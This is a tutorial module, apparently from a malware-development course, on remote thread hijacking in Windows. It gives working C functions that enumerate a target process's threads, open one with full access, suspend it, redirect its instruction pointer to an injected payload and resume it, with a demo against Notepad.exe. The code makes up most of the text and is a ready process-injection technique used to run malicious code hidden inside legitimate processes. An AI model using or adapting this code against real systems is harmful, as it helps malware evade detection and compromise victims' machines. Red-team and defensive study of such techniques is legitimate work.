



Introduction
This module covers the usage of CreateToolhelp32Snapshot to enumerate threads of a remote process. Minor changes are made to the GetLocalThreadHandle function, shown in the previous module, to make it work against remote threads.
The logic remains the same where CreateToolhelp32Snapshot, Thread32First and Thread32Next are used to enumerate the target process's threads. The difference when targeting remote processes is that the main thread is a valid target for hijacking.
Remote Thread Enumeration Function
GetRemoteThreadhandle will enumerate threads of a remote process. It takes 3 arguments:
dwProcessId - This is the PID of the target process.dwThreadId - A pointer to a DWORD that will receive the target process's thread ID.hThread - A pointer to a HANDLE that will receive the handle to the remote thread.One additional difference in the implementation of the GetRemoteThreadhandle function is that the target PID needs to be supplied. When targeting the local process that was not necessary because the GetCurrentProcessId WinAPI retrieved the local process's PID.
BOOL GetRemoteThreadhandle(IN DWORD dwProcessId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {
HANDLE hSnapShot = NULL;
THREADENTRY32 Thr = {
.dwSize = sizeof(THREADENTRY32)
};
// Takes a snapshot of the currently running processes's threads
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE) {
printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
// Retrieves information about the first thread encountered in the snapshot.
if (!Thread32First(hSnapShot, &Thr)) {
printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
// If the thread's PID is equal to the PID of the target process then
// this thread is running under the target process
if (Thr.th32OwnerProcessID == dwProcessId){
*dwThreadId = Thr.th32ThreadID;
*hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);
if (*hThread == NULL)
printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());
break;
}
// While there are threads remaining in the snapshot
} while (Thread32Next(hSnapShot, &Thr));
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwThreadId == NULL || *hThread == NULL)
return FALSE;
return TRUE;
}Remote Thread Hijacking Function
This part is similar to the hijack function seen in previous modules. Retrieve the remote process handle, inject the payload to the remote process and finally hijack the thread.
BOOL HijackThread(IN HANDLE hThread, IN PVOID pAddress) {
CONTEXT ThreadCtx = {
.ContextFlags = CONTEXT_ALL
};
// Suspend the thread
SuspendThread(hThread);
if (!GetThreadContext(hThread, &ThreadCtx)) {
printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
ThreadCtx.Rip = pAddress;
if (!SetThreadContext(hThread, &ThreadCtx)) {
printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("\t[#] Press <Enter> To Run ... ");
getchar();
ResumeThread(hThread);
WaitForSingleObject(hThread, INFINITE);
return TRUE;
}Demo
Getting the target process's PID. In this case, the target process is Notepad.exe.

Inject the payload and hijack thread ID 7136. The thread stack shows that the address of the payload is the next job to be executed.

Finally, the payload is executed.
